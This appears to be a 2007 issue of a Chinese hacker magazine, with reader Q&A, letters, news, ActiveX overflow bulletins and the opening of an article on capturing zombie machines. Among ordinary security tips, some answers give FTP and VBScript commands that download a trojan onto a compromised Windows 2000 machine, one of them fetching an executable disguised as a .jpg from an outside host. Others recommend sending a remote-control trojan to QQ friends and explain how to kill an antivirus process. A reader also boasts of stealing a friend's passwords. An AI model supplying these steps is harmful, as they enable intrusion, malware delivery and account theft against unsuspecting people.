Q：我的 QQ 号今天终于找回来了，盗我 QQ 号的人向我索要了 15 Q 币，QQ 号是小，Q 币是小，可是搞得很郁闷。作为新手，我也没办法，我现在很想好好学习！能不能发一些 QQ 攻防之类的东西，或者软件什么的到我的会员邮箱，让我学习。

A：现在 QQ 被盗以及盗 QQ 已经不算是什么新鲜事了，前段时间，央视还报道了一个盗卖 QQ 团伙被警方端掉的新闻。对于防范 QQ 被盗，我说几个重点：

- 1、做好自己机器的安全  
  安装一个杀毒软件，如瑞星，最重要的是及时更新病毒库。  
  安装一个防火墙，如天网。

- 2、随时要有一个警惕的心  
  不要随便接收从 QQ 里面传过来的文件，因为很多的盗号软件就是具有自动传播盗号木马副本的功能。  
  不要随便打开不熟悉的网站，往往一些网站就是被别人入侵挂马的。

- 3、经常修改登录的密码  
  特别是在网吧，觉得密码被盗了，其实不要紧，下 QQ 的时候修改一下密码，不再登录。即使被盗也是一个以前的密码，别人也不能登录你的 QQ 了。

- 4、做好 QQ 自身的安全  
  这个就是一定要申请密码保护了，这个是非常重要的。在设置密码保护的时候一定要设置难一点，不要问题和回答一样。也不要把邮箱等写在 QQ 上面，以及邮箱和 QQ 密码一样。


Q：各位前辈，我的电脑这几天一直在遭受不同的 IP 攻击，防火墙提示如下：

```text
[22:50:17] 82.5.44.30 试图连接本机的 OICQ Server[8000] 端口，
TCP 标志：S，
该操作被拒绝
```

这样的攻击还有很多很多，IP 也不尽相同，这到底是怎么回事啊，哪位前辈能帮忙解决一下，小弟谢谢了。

A：是别人在扫描你电脑的 8000 端口，这个 TCP 标志 S，就是使用 SYN 在扫描。因为别人只是在扫描你的电脑，所以不会有什么问题，只要你注意一下别人扫描的端口，看你的机器的这些端口是否有问题。一般来说，我们个人用电脑，开启的服务很少，自然被入侵的可能性很小，除非你中了别人下的马或者又出了什么溢出漏洞。

## 专业术语：标志 S，SYN 简称

TCP SYN 扫描，在这种技术中，扫描主机向目标主机的选择端口发送 SYN 数据段。如果回答是 RST，那么说明端口是关闭的，按照设定就探听其它端口；如果回答中包含 SYN 和 ACK，说明目标端口处于监听状态。由于所有的扫描主机都需要知道这个信息，传送一个 RST 给目标机从而停止建立连接。由于在 SYN 扫描时，全连接尚未建立，所以这种技术通常被称为半打开扫描。

Q：我想让机器的安全系数高一点，怎么才能把所有的补丁补上呢？请大家指点一下，多谢大家了。

A：这里分两种情况了，不知道你的机器是正版还是盗版 Windows？

- 1、正版用户，这里比较简单。点击“开始”，会看到“Windows Update”，点击一下“Windows Update”就会打开微软的自动更新网站，点击里面的按钮就可以了，因为比较简单我就不细说了。

- 2、盗版用户，其实这个也很好办。因为不是正版用户就不能自动更新了，只有我们手动来更新。打开 360 安全卫士的网站：“http://360safe.com”，然后下载该软件并安装。点击桌面上的“360 安全卫士”的图标，然后选择“修复”，再选择“修复系统漏洞”，然后点击软件左下角的“全选”，再到软件的右下角找到“下载并修复”，下载好之后它会提示你安装并且重新启动。这样就可以手动升级了，和正版用户一样。

Q：怎么获得别人的 IP 地址？我怎么才能获得别人网站的 IP 以及像 QQ 之类在电脑上连接的 IP？

A：获得别人的 IP 其实并不难，我就给你分类来解答。

- 1、网站的 IP，这个其实很简单的，我们系统就有自带。点击“开始”，然后选择“运行”，输入“cmd”，然后在命令行下输入“ping www.nohack.cn”，这样就可以得到“www.nohack.cn”的 IP 是“219.153.5.199”。另一种方法就是利用一些查 IP 的网站，比如“http://www.ip138.com”，打开之后直接输入网站的域名就可以查到 IP 以及 IP 的所在地。

- 2、QQ 类的 IP，我们可以利用一些带有显示 IP 版本的 QQ，比如国内现在最流行的“珊瑚虫 QQ”，还有“传美版 QQ”等，安装之后与好友聊天就可以看见对方好友的 IP 了。还有一些的话，我们可以安装一些防火墙，比如“天网防火墙”，在显示与计算机的连接 IP 里面也可以看见这些正在通讯的 IP 以及 IP 所对应的程序及端口等。

Q：我有一个问题就是如何设置网吧收银服务器的安全问题，让别人不能免费上网。我这是 Windows XP SP2 的，都要做些什么，谢谢！

A：现在免费在网吧上网是一件比较让网管烦恼的事情，主要的原因就是网管的意识不够，由一些疏忽而导致的。这里要避免别人能免费上网，主要分两个方面：一就是客户机的设置，二就是收银机的设置。

- 1、客户机的设置。这里就拿比较流行的万象网管来举例，首先要避免“智能 ABC”的漏洞，最好的解决办法就是下载最新的版本。然后就是避免别人关闭协议，使客户机断开与主机的连接而能免费上网。打开万象之后，在“一般设置”里面，设置“每 2 分钟检测与服务端的连接”，下面还有连接不上的一些动作，可以选择“锁定电脑”。
- 2、收银机的设置。及时打补丁，然后把不必要的服务都禁用了，端口没有用的也都关了，共享没用的也关了。安装一个防火墙和杀毒软件，经常升级杀毒软件的病毒库。使用 NTFS 分区，设置好每个分区的权限。

Q：谁能告诉我，在 QQ 里聊天的时候，我这样可以将对方的键盘进行控制吗？不是为了害人，但想了解这方面知识。

A：显然，直接用 QQ 聊天是不可能实现的。不过要利用其他一些方式还是可以的。

- 1、QQ 的远程协助。对方只要邀请你远程协助他，并且给予你控制权，你就可以控制他的机器了。首先打开 QQ 的对话框，然后找到“应用”，选择“远程协助”，等确定之后，然后申请控制，双方确认即可。
- 2、使用木马软件。这里介绍“QQ 远控精灵 v2.4”，下载地址：http://dx.3800hk.com/Soft/yckz/1880.html，配置好服务端之后传给 QQ 好友，然后让他运行，最后就可以利用对话框来控制对方了。一些细节我就不多介绍了，很简单的，仔细看说明。

Q：我的卡巴斯基最近经常弹出“已经成功防御 IP XX.XX.XX.XX 的攻击”，开始我还想卡巴斯基就是牛 B 啊。可是后来它经常出现此类事情，我就觉得不对了，难道这么多人都喜欢入侵我的电脑？恐怕不会吧。所以在此请教这是是否中毒了？该怎么办？

A：既然已经提示成功防御 XX IP 的攻击了，那么就证明其实你还是安全的，所以我们不用担心。大多时候可能是一些蠕虫自动扫描造成的，而且这些防火墙可见的提示基本都没有关系。所谓常在网上混，哪能不被黑，更不要说扫描刺探这些家常便饭的事情了。真正可怕的是没有任何提示的，躲在你电脑深处的……hoho。不过，不要担心，要经常更新补丁以及更新卡巴斯基的病毒库，少去打开一些不熟悉的网站，所谓“好奇害死猫”嘛。

Q：我想问下，“网游信封木马”和“木马”有什么区别？

A：相信很多的朋友对上面的两种程序都不是很了解，只是经常地听说。两者都是木马，只是目的不同。

“网游信封木马”顾名思义，它是一种盗取网络游戏账号的木马，而常常都是把游戏账号等信息以邮件方式发到指定的邮箱，所以称为“网游信封木马”；而“木马”就不同了，比如说国内很著名的“灰鸽子”，它主要用来控制别人计算机，当然它也可以变相地盗取游戏账号等。

Q：在 Baidu 或各类网站中，在键入关键字后，再下次时，双击便会显示出来。请问这个怎么删除？比如在百度搜索：电脑，然后下次再搜索时，便会有个下拉框，并把之前搜过的关键字“电脑”给下拉出来。

A：其实，在百度里面搜索就是填写了一个表单，所以我们删除表单就可以了。在桌面用鼠标右键点击 IE 图标，再点属性。选上面的“内容”按钮，再点下面的“自动完成”按钮，然后点击“清除表单”，就可以把以前的所有历史记录删掉。如果想以后也把搜索的内容不留历史记录，则把“表单”前面的勾去掉即可。

Q：问个很菜的问题，开启了对方的 Telnet 后（对方是 Windows 2K 的系统），然后怎么把做好的木马传到对方机器上？并且让对方运行？麻烦高手告诉我具体的命令，假设有个 IP 是 192.168.0.22，已经开启了对方的 Telnet 了，然后怎么做啊，木马假设为 MM.exe，谢谢了！

A：这是一个很古老的问题了，下面是几种常见的 DOS 下的文件传输。

- 1、FTP 传输方式，下面是一些语句。

    ```txt
    echo open xxx.xxx.xxx.xxx>1.txt
    echo user>>1.txt
    echo pass>>1.txt
    echo bin>>1.txt
    echo get mm.exe>>1.txt
    echo bye>>1.txt
    ftp -s:1.txt
    ```

    里面的“xxx”就是 IP 地址，“user”是用户名，“pass”是密码，“bin”是使用二进制文件传输方式，“get”是下载的命令，“mm.exe”就是要下载的木马，“bye”退出 FTP，“ftp -s:1.txt”使用 FTP 运行里面的命令。
- 2、TFTP 方式，下载一个“tftpd32.exe”，把它放到你要传送的文件的目录里运行一下就 OK 了。在使用的时候执行命令是：tftp -i 你的 IP get xx.exe，要传输的文件如果是默认的话需要和 TFTP32 放在同一文件夹。
- 3、VB 脚本传输，这个最简单了，代码如下：

    ```txt
    echo Set xPost = CreateObject("Microsoft.XMLHTTP"):xPost.Open "GET", "http://wowo1.w101.web9898.cn/asdfg.jpg", 0:xPost.Send():Set sGet = CreateObject("ADODB.Stream"):sGet.Mode = 3:sGet.Type = 1:sGet.Open():sGet.Write(xPost.responseBody):sGet.SaveToFile "2.exe", 2 >sysinfo.vbs
    ```

    修改其中的“http://wowo1.w101.web9898.cn/asdfg.jpg”就成了你的木马地址了。

Q：最近下载一个可以用来装快捷方式的软件，叫音速启动。不过不怎么会使用，我想问一下，怎么能备份已有的快捷方式数据，以便于以后的恢复？

A：打开音速启动的界面，然后点击“菜单”，选择“高级选项”，点击“其他”，可以看见“数据备份”，点击一下，就会让你选择一个路径，你保存即可。要恢复的时候，点“其他”这里的“数据恢复”，然后选择保存的 *.vbak 文件就可以恢复数据了。

Q：我的 PC 不能 ping 通网址，怎么回事？Windows 自带的防火墙我都关了，也 ping 不通。只能显示出对方的 IP，但是就是 ping 不通网址。我和我们宿舍的人用着 1 条网线，是不是外网 IP 的问题？怎么才能 ping 通？所有的网址都 ping 不通，但是可以正常浏览网页。

A：不能 ping 通的话，会有很多方面的原因，有可能是你的机器问题，也有可能是对方服务器限制了，因为你是内网，所以有可能是因为 NAT 转换造成的，要是这样就不好解决你的问题，除非改变自己的网络环境。

不过我们可以利用其他的方式来解决：

- 1、你可以打开 www.ip138.com 等一些查 IP 的网站，输入需要查询的网址，就可以查到对方主机的 IP 了。
- 2、因为有的网站禁止别人 ping，所以 ping 出 IP 之后就是“timeout”了。多 ping 一些其他的网站，比如 ping《黑客手册》的网站 www.nohack.cn，将可以得到如下的信息：“Reply from 219.153.5.199: bytes=32 time=55ms TTL=52”。

Q：谁可以告诉我怎么换机的 IP 地址？

A：要是想换 IP 地址，不知道你是想把自己的 IP 直接换掉，还是想隐藏起来。

- 1、要是想彻底地修改掉，这里分局域网和 ADSL。局域网的外网 IP 是无法修改的，除非找你的运营商修改，只能修改一下局域网的 IP 地址，步骤如下：右键网络邻居——属性——本地连接——右键属性——TCP/IP 属性里，一般是 192.168.0.x 或者 192.168.1.x，要和网关一致的。ADSL 的话是比较简单的，断开网络之后重新连接就会有一个新的 IP。
- 2、要是想隐藏自己的 IP，而给别人一个视觉上的改变的话，可以使用代理以及 VPN 等。需要代理的话，可以打开“http://www.ipbbs.com”，在里面寻找，它每天都有更新的。使用 VPN 的话其实很不错，不仅可以修改 IP 地址，还可以有效地提高网速，像现在比较流行的加速器就是此种技术，这里提供一个加速器给你下载，电信：http://www.3800hk.com/down/Telecom.EXE，网通：http://www.3800hk.com/down/Netcom.EXE

Q：我在一家网吧上网，想结束那个杀毒软件（NOD32）来着，它就说“拒绝访问”，请问有什么方法结束它？

A：这个是系统进程，在任务管理器中是无法结束的。不过可以直接结束掉“PID”。首先我们要获得你要结束的进程的 PID 值，开始—运行—cmd，然后输入“tasklist”，找到你要结束的进程的“PID”，最后在 cmd 输入“ntsd -c q -p PID 的值”，例如：“ntsd -c q -p 336”。

Q：以前版本的智能 ABC 出现了一些故障，卸载后新装了智能 ABC 5.23 版，输入法无法设置，输入法区域设置中显示为“检测到老式键盘驱动程序，禁用窗格”，控制面板里也没法设置，寻求高人帮助！

A：当“检测到不兼容的键盘驱动程序，该对话框已经被禁用”时，首先不用着急，可以打开注册表，点开始—运行，然后输入“regedit”，依次展开：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Keyboard Layout，看一下“Keyboard Layout”键值下是不是少几项。原因是因为乱用优化工具或者注册表清理工具，把一些键值删了，所以我们需要在另一台正常的机子上把 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Keyboard Layout 导出，复制在自己的电脑上，然后“导入”就恢复正常了。

Q：有一个地址是 http://263mtv.com/html/7310.htm，上面那个视频的地址我可以找出来是：http://mtv.263mtv.com//2006/0401/家庭滑稽录像——恶作剧.wmv，但是下载不了怎么办啊？

A：因为防盗链的存在，即使硬探出地址也可能是一个虚假的，并不是真实的。防盗链里面可以设置多种防盗措施，所以我们这里只用最原始的一个方法。因为我们的机器访问网站时都会有临时文件，所以当我们打开这个播放地址之后，完整地看一遍，然后打开机器的 C:\Documents and Settings\Administrator\Local Settings\Temporary Internet Files，其中“Administrator”是计算机当前的用户，要下载的文件一般在文件夹的最下面。

Q：我们这里有家网吧右键老是有 ATI 显卡的控制中心，不知道怎么才能删除？虽然不影响操作但是很碍眼，我该怎么办？

A：因为“ATI CCC”控制中心在 Explorer.exe 进程中有自己的 DLL，所以我们直接结束掉这个 DLL 文件就可以了。用“regsvr32”命令卸载这个 DLL，在运行里面输入命令如下：“regsvr32 atiacmxx.dll /u”。要是要恢复的话，也是在命令下面输入，命令如下：“regsvr32 atiacmxx.dll”。不过这种方法并不是对所有的都有效，有的时候会出现找不到模块。那么我们可以使用第二种方法，把下面的保存为“*.bat”文件，如“ATI.bat”，然后运行即可。

```txt
regsvr32 /u /s igfxpph.dll
reg delete HKEY_CLASSES_ROOT\Directory\Background\shellex\ContextMenuHandlers /f
reg add HKEY_CLASSES_ROOT\Directory\Background\shellex\ContextMenuHandlers\new /ve /d {D969A300-E7FF-11d0-A93B-00A0C90F2719}
```

城市 / 沈阳  
论坛 ID / jki555  
邮件 / jki555@163.com

## 对栏目满意程度以及建议

栏目：喃喃黑语

这样的小说不要太多，多些技术性的文章。感情会阻碍技术的发展。

建议和意见：别总登些入侵网站、服务器类的文章，一本杂志有好几篇类似的文章！虽然有的很有新思想、好思路，可以简单而说！不要太偏重于基础类！多少增加些技术提升类的和高技术类的！多些原理性的文章！基础类和入侵网站类的也要有，但比例望贵社能重新设计一下！原理的多了，技术提高就快了……

阅读此信眼酸头晕的某编：非常感谢这位读者的超长回函，这应该是本编看到的最长的一封回函内容，其中就专门拿了两页来介绍推荐自己，很有自信嘛！不过，当下还是应该循序渐进地学习知识，才能更好更快地理解更多更高更深层次的技术啊。另外，大家在看黑刊、做黑事的时候还是还要更多地培养周围的感情啊！酷并不代表无情……

正在编辑某文的某编：嘿，大家记得看看本刊跨年特别专题《菜鸟日记》哦，来体会菜鸟进阶的艰辛吧！真正的黑客是不会认为自己是老师的，技术在更新，思维在拓展，社会在进步，永远都要追，那就是风一样的感觉呀！

## 黑客·情感

城市 / 河北省衡水市  
论坛 ID / 无  
邮件 / wxizwxziz@sina.com

对某篇文章的读后感：  
文章名称：百分之一的幸福机会  
读后感：有一种说不出的感动，为什么每一个黑客的女友最后不是远赴他国就是永远地停止思想？难道黑客的宿命就是这样的？

城市 / 泸州  
论坛 ID / 无  
邮件 / 398828920@qq.com

对某篇文章的读后感：  
文章名称：百分之一的幸福机会  
读后感：人生就像一杯酒，什么事情会发生真的很难预料，我的人生能过成这样就不枉此生了。

为情而早已被情抛弃的某编：喃喃黑语给了大家了解黑客尘封于内心、隐藏于现世的感情！当然，如果你也愿意让大家分享你的心情，不妨写写自己的故事吧！

城市 / 烟台  
论坛 ID / kawaru  
邮件 / kawaru999@163.com

对某篇文章的读后感：  
文章名称：百分之一的幸福机会  
读后感：头一次因为情感类的文章而哭，它触动了我心中的那根弦。“缘分”的诠释及凄美的结局让人心里一阵阵的惆怅，情绪完全被牵引进了文章里，e 时代的网络情缘被真情演绎，估计又会有不少 MM 泪湿衣襟，三日不思茶饭，赞一个！

主编亲自接见：老读者了，很眼熟的名字啊。第一次收到有读者看黑客类杂志而哭，真是性情中人啊，我佛慈悲！各位读者若对自己在现实中的技术很自信了，就请到佛门清净之地，未破红尘因果之门吧！

城市 / 湖北利川  
论坛 ID / yangfengrui  
邮件 / yfr888@tom.com

对某篇文章的读后感：  
文章名称：风一样的爱情  
读后感：读完之后感觉风一样的凄冷，也才知道原来英雄是孤独的。想留却不能留才最寂寞，不知何时心中有一种莫名的冲动，想骑着车加上最大马力去追逐风一样的感觉！

建议和意见：学习黑客技术到现在已经快三年了，却从未有人教过我。我想请教那些所谓的“黑客”给我指一条真正的道路，他们却给了我更多的讥笑与讽刺，然后摔下一句：“小样，新来的吧？”现在的“黑客”精神荡然无存，有的只是更多的利益，更多的悲哀……我想大声说：“还 HACK 一片净土，让 hacker 在这里源远流长”。自由、共享、平等——我的黑客精神！

## 社工·菜鸟

城市 / 长沙  
论坛 ID / 无  
邮件 / lizhenlun12@163.com

对某篇文章的读后感：  
文章名称：巧妙利用社会工程学入侵校园网  
读后感：我竟然用此法得到了我一个好友的邮箱密码，反过来又得到了 QQ 密码，非常兴奋，很感谢！

社工小编：社会工程学讲究的就是环环相扣，充分联想，推理精解，而且永远都学不完……本刊也是尽力地为大家引导。不过，知识也是双刃剑，玩刀自害了可就麻烦了……

城市 / 山西太原  
论坛 ID / VR46  
邮件 / 无

对某篇文章的读后感：  
文章名称：社会工程学之新浪 BLOG 也挂马  
读后感：以前看 BLOG 的时候从未想到会有什么安全问题，以为新浪这样的大公司不会有什么漏洞。看了这篇文章以后，狂汗！幸亏我的 BLOG 是 SOHU 的，呵呵……

国产洞洞编：无论新浪还是 SOHU，只要有网就有可能有洞。无论天生的洞，还是新挖的洞，及时发现并快速打上补丁才是第一选择啊！以后会不会出现专门的补丁公司呢？这个行业还真不好说！（自己挖自己补？向国内的某类软件学习？）

城市 / 西安  
论坛 ID / 北纬 36 度  
邮件 / beiwei36@nohack.cn

建议和意见：

贵刊很多文章似乎出发点有点高，能否基础点，如有期的端口扫盲就很不错。基础的东西最有用，真正的求知者并不在乎工具的使用，而是该工具如何实现此功能的！做一个工具“黑客”，不是一个真正的黑客，所以建议贵刊多出一点原理性的文章！小菜万分感激！

最爱肉菜搭配的菜猴：作为小菜却喜欢原理性的文章，看来读者动手能力不是很菜啊！按照文章中的操作步骤，先试验一把，然后再自己揣摩试验原理不是能更有效地使自己又动手又动脑吗？肉菜搭配，营养不贵！好吃还不伤胃，管饱还好睡！（年后猴子就变猪啦？！）

## 黑客手册

NO. 非安全 网络安全  
2007  
02  
￥10.8

黑客系漫游指南，投稿 Mail：nohack@21cn.com 或 WWW.NOHACK.CN｜原生态黑客，借由独行的边缘文化｜不刊载随刊 CD 内容目录，详见刊中……

### [Hack] 全国三级甲等医院的渗透手记

高等保护单位也难逃泄洪入侵的厄运吗？直面医疗内部网络防火墙。看黑客是怎样把冰冷冰冰的事情变得比 MM 更突兀。

### [编译] 防火墙不防火

当制作防火墙的时候，由于意外我们听到一个编译的声音，我们却要停下来，把所有的漏洞补上。我们发现重大问题。

### [系统] 制作自己的一键还原系统

重装破烂 Windows，你是选择重装还是忍耐。看这里，有二种还原方法：硬盘版和光盘版。

### [好玩]

- 网络海选——CC 当选最佳评委
- 给摄像头安装一个“金钟罩”
- QQ 木马也钓鱼
- 木马免杀之添加花指令
- Ubuntu 安装图文全解
- Ubuntu 基本配置
- 记一次网吧突破
- 网吧完美“会员”
- 网吧服务器共享资源的侦测与防范
- 网吧之网——网吧通信与安全
- 破解前奏之使用 SPY 工具探测聊天窗口顶层
- 代码克隆技术与注册机编写之入门篇

### [专栏] 春节免费看电影

影院系统漏洞特辑。谁能知道在节日之下的漏洞。在黑客的心目中，任何的网站都有它的缺陷。

### [心情] 仅剩的百分之十的爱情

虽然他的心情不好，也许在某个时间，你会发现爱情真的只能是只有百分之十了。

### [入侵]

- 另类拿 WebShell
- 漫漫入侵之路
- 最长的入侵
- 宝马也疯狂入侵网站

### [脚本]

- 彻底击溃 C-BLOG
- 关于风讯系统的漏洞分析
- 远龙科技企业网站管理系统 V3.0 漏洞利用
- 万可供警站居其漏洞分析
- 再战思纺外来信息网系统
- 易心博客 V1.0 漏洞解析

### [反黑] 反黑精英系列之入侵防御（二）

- 1、如何预判浏览的网页是否存在木马
- 2、如何正确进行 IE 设置而尽量避免中马

### [练兵房]

- 网站程序安全分析器黑手专版
- 图片识别扫描器黑手专版
- Norton AntiVirus 2007

### [诊铺]

- 电脑故障维修大全
- 及知识技巧大集合

### [动画教程]

- 手脱 EXEStealth 的几种方法
- 入侵传奇网得 WebShell
- Cookies 欺骗入侵网站
- 网站无备份的条件下入侵

### [Q 系动漫]

- 帝国陆军情报部第 3 课
- 1、2 集精彩剪辑

### [特别企划]

- C# 打造“陷阱门”
- C# 打造限制 QQ 运行的服务

## 写在前面

## 爱·黑客

> 卿卿我我恋爱中，多少欢乐两相拥。  
> 梦里柔情千万种，醒来难与人争宠。  
> 好梦易醒世事空，情丝欲断缘欲终。  
> 今宵梦境已不同，空留怀念长夜中。

哎……各位看官问某猴为何如此长叹？某猴又怎能不长叹！过了那么多春节，现在才感觉到……有点腻了。虽然离家千里之外，但形式和内容一直没有大的变化，刺激不起过节的欲望。想换一种方式来过春节，试试一个人过？或者……和她一起过（偷偷摸摸）？

有读者来信，说刊头都快成花果山了，是猴子的大本营。不容易啊，现在房价贵，有个刊头来立足算是不错了，呵呵……通过各位读者的回信我们了解到，黑手读者群是“上到九十九，下到不会走”，可以说是涵盖了老中青三代，虽然比例还不是那么均衡。

过年之前还有一个西方的情人节（2月14日），是大家都喜欢的日子吧，真是个好——日——子啊！猴子也正在这个边缘……

可惜花果山的都“名猴有主”了，某猴打算去龙宫找老龙王喝酒，看有没有小龙女——的丫鬟暗送秋波，嘻嘻……可惜那老龙王每次见到偶都让我把棒子还给他，这怎么行啊！没有了棒，我还敢叫猴啊！

说起棒子就想到棍，当然是光棍啦！有网友号召，以后只要月份和日期全部都是由 1 组成的，那一天都是光棍节，比如一年当中就有 1 月 1 日、1 月 11 日、11 月 1 日、11 月 11 日，这 4 天！而特别的是，1 月和 11 月、1 日和 11 日都隔 10 个月和 10 天，哈，我的数学真好！

无聊的节日中就找肉鸡来搞吧！越来越觉得，通过《黑手》，我们的读者们现在已经基本告别封闭的单兵作战状态，转而追求远程互助配合的战术理论研究，像前几期的杂志中就有远程配合作战的文章。

记住：你不是一个人在战斗！《黑手》一直忠实地作为菜、虾之间的联系纽带而存在，我们一同关注网络，关注黑客，关注安全，让我们继续在边缘文化自由独行，享受原生态黑客！

## 新闻短评快

“熊猫烧香”病毒。中毒电脑会出现蓝屏、频繁重启以及系统硬盘中数据文件被破坏等现象。

## 新闻概要

临近春节，神州上下到处都喜气洋洋，人们从头到脚都透露着一股精神劲儿，为的就是在春节这几天长假中要好好表现一番！快过年了，“毒王”和“洞主”们也照例每年聚会一次，给大家拜年了……最近最热闹的莫过于“熊猫烧香”，真是春节求福？台湾地震，“封闭”中国！轻者影响 MSN 无法登录（还好大家一般都还有 QQ），重者失去自己域名拥有权……哎！谁让这些东西都被国外掌握呢。总之，就是一根线的问题啊！

### 卡巴斯基服务器将搬中国

台湾地震引发的光缆中断，依然影响着国外杀毒软件商的效益和声誉。尽管卡巴斯基提出了紧急处理预案，将光缆中断的影响降到了最低，但这件事让卡巴斯基积极寻找更稳妥的解决办法，总公司已经决定在不久的将来尽快将服务器搬到中国，这样，用户就可以通过中国的服务器进行软件的激活码激活。

小速点评：软件巨头微软和硬件巨头 Intel 都在中国有了基地，通过这次地震的“教训”，许多国外网络服务商也开始向往古老的东方古国。卡巴斯基已经决定在中国设立服务器，难道说中国是电脑病毒最猖獗之地？

### “熊猫烧香”，春节求福？

什么是“熊猫烧香”？

“熊猫烧香”其实是“尼姆亚”病毒的新变种，最早出现在 2006 年的 11 月，到目前为止已经有数十个不同变种，在此期间许多杀毒软件已经开始发布针对该病毒的专杀工具。

该病毒会在中毒电脑中所有的网页文件尾部添加病毒代码，一些网站编辑人员的电脑如果被该病毒感染，上传网页到网站后，就会导致用户浏览这些网站时也被病毒感染。

中毒简述：

中毒电脑上会出现“熊猫烧香”图案，所以也被称为“熊猫烧香”。

自从“熊猫烧香”流行起来后，其攻击重点正在转向企业局域网和网站，广大企业和网站应提高警惕，严密防范。目前多家著名网站已经遭到此类攻击，而相继被植入病毒。由于这些网站的浏览量非常大，致使此次“熊猫烧香”病毒的感染范围非常广，中毒企业和政府机构已经超过千家，其中不乏金融、税务、能源等关系到国计民生的重要单位。

那么，我们应该怎样防范“熊猫烧香”病毒的攻击呢？大家注意以下几点：

- 1、安装常见的查杀软件，升级最新病毒库，并开启软件进行实时监控。
- 2、网站管理员应该更改电脑密码，以防止病毒通过局域网传播。
- 3、QQ、UC 的漏洞已经被该病毒利用，用户应该去它们的官方网站打好最新补丁。
- 4、该病毒会利用 IE 浏览器的漏洞进行攻击，因此用户应该给 IE 打好所有的补丁。如果必要的话，用户可以暂时换用 Firefox、Opera 等比较安全的浏览器。

### QQ 也要耍流氓？腾讯打击第三者？

腾讯公司目前发布了一篇《关于终止使用存在安全漏洞的 QQ 版本的公告》，内容主要是说其已经对 QQ 之前存在的一些安全漏洞进行了升级，因此决定停止存在漏洞的 QQ 版本的使用，希望用户去下载最新版本的 QQ。

这按平常来说应该是很普通的版本升级公告，彻底淘汰旧版本。在国内，这种软件强制升级的做法，大家已经不是第一次见到了，但是，这却影响到了来自非 WIN 平台需要使用 QQ 的用户！

现在许多使用 Linux 或者苹果 Mac 操作系统的用户已经无法登录 QQ 了，因为腾讯并没有开发这些操作系统的 QQ 版本。非 WIN 平台的 QQ 使用者都是通过第三方开发的 QQ 协议兼容客户端软件，如 LumaQQ、Gaim、iQQ 等来进行 QQ 登录。目前使用这些软件的用户都被提示 QQ 版本已经停止使用，要求安装最新 QQ 版本。

腾讯将所有第三方 QQ 客户端都视为“不安全”版本做了禁用，一种猜测是因为第三方客户端去除了 QQ 的许多增值服务，使腾讯无法从中获利；另一种猜测是腾讯即将开发非 WIN 平台的官方 QQ？

小迷点评：QQ 容量越来越大，且安装中还没自定义选项，开始捆绑其他软件，虽然可以不选择，但偶每次安装完后都要卸掉 QQGame，麻烦……流氓会 QQ，钞票骗到手！

## 漏洞公告牌

### 阿里巴巴淘宝旺旺 ActiveX 远程栈溢出漏洞

淘宝旺旺是阿里巴巴出名的即时通信软件，主要用于对淘宝网提供 IM 支持。在淘宝旺旺中存在一个远程缓冲区溢出漏洞，远程攻击者可利用此漏洞在被攻击者系统上执行任意代码，进而可安装木马以及间谍程序，窃取相关敏感信息，比如淘宝账号/密码，或者支付宝账号/密码。

受影响的软件版本：

2006 年 12 月 22 号之前的淘宝旺旺或者某些未升级版本。

简单描述：

漏洞存在于由 ActiveX 控件“WangWangX3.dll”导出的“RunWangWang()”函数中，相关信息如下：

```
InprocServer32: WangWangX3.dll
ClassID : 6E213FC7-DD5A-4115-B7E6-D4C7838C361E
```

```
[id(0x00000003), helpstring("method RunWangWang")]
long RunWangWang([in] BSTR pWebParam);
```

当设置超长的 pWebParam 值，将触发栈溢出，像极了之前的 QQ ActiveX 溢出，估计是软件设计的问题，淘宝旺旺自动更新无效。当前仍然有大部分淘宝旺旺用户存在此安全隐患，建议用户通过注册表对相应的 CLSID 设置 Killbit。厂商目前偷偷修复了此漏洞，当前没有发现任何更新信息以及安全公告。

### 厂商悬赏挖掘 Vista 漏洞，一处漏洞 8000 美金！

据国外媒体报道，安全厂商 iDefense 目前宣布，将以每处漏洞 8000 美元的代价，向社会征集微软新一代操作系统 Windows Vista 的安全漏洞。据悉，2005 年和 2006 年，iDefense 也发起过类似的悬赏活动。

iDefense 网站报道，从本季度开始，如果用户提供一处安全漏洞，而该漏洞又允许黑客对运行 Windows Vista 或 IE 7 的计算机实施远程攻击的话，那么就可以获得 8000 美元的奖励。

但是，iDefense 最多只为 6 个这样的安全漏洞买账，如果用户提交的安全漏洞多于该数字，那么只有前 6 个漏洞有资格获得 8000 美元奖金。此外，iDefense 还向成功开发上述漏洞攻击代码的作者提供 2000-4000 美元的奖励。不过，此次活动是与其他安全公司合作举办的，并未得到微软的同意。

小迷点评：感谢微软推出 Vista，让世界人民都有钱赚！不过反过来一想，这不是更大地刺激大家去挖洞吗？这让偶想起来那句经典语句：系统本无洞，挖的人多了就有了洞……

### 新浪 UC，ActiveX 多个远程栈溢出漏洞

- CVE：暂无
- 厂商：Sina Inc.
- 受影响的版本：Sina UC <= UC2006

新浪 UC 是中国非常流行的 IM 工具之一，漏洞的起因是 Sina UC 的多个 ActiveX 控件的参数缺乏必要的验证，攻击者构造恶意网页，可以远程完全控制安装了 Sina UC 的用户的计算机。

多个控件存在栈溢出问题，包括但不限于：

- 1、clsid: 77AE4780-75E0-4CB0-A162-D1BBE3D50384  
  C:\Program Files\sina\UC\ActiveX\BROWSER2UC.dll

```
Sub SendChatRoomOpt (
    ByVal astrVerion As String,
    ByVal astrUserID As String,
    ByVal asDataType As integer,
    ByVal alTypeID As Long
)
```

当第 1 个参数是一个超宽字符串时，发生栈溢出，SEH 被覆盖，攻击者可以执行任意代码。

- 2、clsid: 77AE4780-75E0-4CB0-A162-D1BBE3D50384  
  C:\Program Files\sina\UC\ActiveX\BROWSER2UC.dll

```
Sub SendDownloadFile (
    ByVal astrDownDir As String
)
```

当 astrDownDir 参数设置为超宽字符串时，发生栈溢出。

解决方法：

在厂商没有推出相应的补丁之前，建议用户通过注册表对相应的 CLSID 设置 Killbit。


## 别人帮我提肉鸡

天涯浪草

> 首语：  
> 又到放假了，又要闭关了。跟一个朋友聊天，他说，现在期待过年，过年了就可以休息一下，玩一玩。我说，我也期待过年，平时玩多了，过年终于可以学点东西做点事情了，然后他无语。不知道这个地球上有多少人像我一样。

- 从本文中你可以学到：
- 1、如何享受别人帮你捉鸡
- 2、如何防止你帮别人捉鸡

很多菜鸟朋友都梦想拥有大量的肉鸡，所以各显神通来捕捉。现在捕捉肉鸡的方法有很多，比如网页木马、文件捆绑等等。但是你有没有想过通过别人来帮你捕捉肉鸡呢？有朋友马上就说，哪有这样的好事啊？不相信的话就跟着我一步步地操作吧！

